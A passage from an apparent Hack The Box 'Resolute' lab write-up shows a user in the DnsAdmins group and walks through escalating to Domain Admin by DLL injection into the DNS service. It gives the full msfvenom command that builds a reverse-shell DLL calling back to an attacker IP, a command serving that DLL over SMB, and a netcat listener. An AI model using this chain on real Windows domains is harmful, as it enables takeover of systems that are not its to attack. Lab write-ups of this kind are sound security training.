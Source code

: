 ```
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192
```

**Ryan** user belongs to DnsAdmin group.
We can escalate our user privileges like **DNSAdmins to Domain Admins** using  server level DLL injection technique.


Putting all the pieces together, the following is our attack path.:

- Making a dll payload that sends a reverse shell back to our machine with msfvenom.
- Serving it using SMB Server to make it available to the Windows machine.  
- Setup a netcat listener to catch our reverse shell.
- Importing that dll in the DNS Server.
- Restarting the DNS Server so that it loads the dll file.

Alright, let’s get started.

Lets make a payload

`root@kali:~/htb/resolute$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.21 LPORT=4444 --platform=windows -f dll > plugin.dll
`

Now, Lets serve our payload using [smbserver.py](https://github.com/SecureAuthCorp/impacket) 

`smbserver.py resolute ~/htb/resolute/`

In another terminal tab, set up a netcat listener to catch the reverse shell

`nc -lvp 4444`

Now, in the compromised Windows machine run the following series of command.

![alt text](https://raw.githubusercontent.com/VitthalS/VitthalS.github.io/master/writeups/resolute/dll.png)
